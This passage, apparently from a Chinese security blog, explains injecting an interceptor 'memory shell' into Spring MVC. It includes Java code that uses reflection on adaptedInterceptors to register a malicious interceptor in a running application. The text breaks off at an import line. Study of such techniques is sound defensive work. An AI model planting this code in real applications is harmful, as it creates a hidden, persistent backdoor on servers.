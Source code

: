 ![](2023-01-30-17-35-53.png)  
可以看到通过这几个方法可以获得请求对象来执行相关代码,同样的则可以注入拦截器内存马,执行恶意代码.  
当SpringMvc在处理每一个Handler时,通过 HandlerMapping 的 getHandler 方法获取到对应的Hanlder,而就是在其中会通过`getHandlerExecutionChain`来得到该Hanlder执行前的拦截器列表,而拦截器列表可以看到是储存在`adaptedInterceptors`变量中的.  
![](2023-01-30-17-40-15.png)  
##### 注入思路
只需要将恶意的Interceptor直接添加进`adaptedInterceptors`变量即可.
##### 实现代码
```java
    public  void interceptorInject() throws NoSuchFieldException, IllegalAccessException {
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (ArrayList<Object>) field.get(mapping);
        adaptedInterceptors.add(evilInterceptor.getInterceptor());
    }
```
```java
package springweb.beans;

import org.springframework.web.servlet.HandlerInterceptor;
```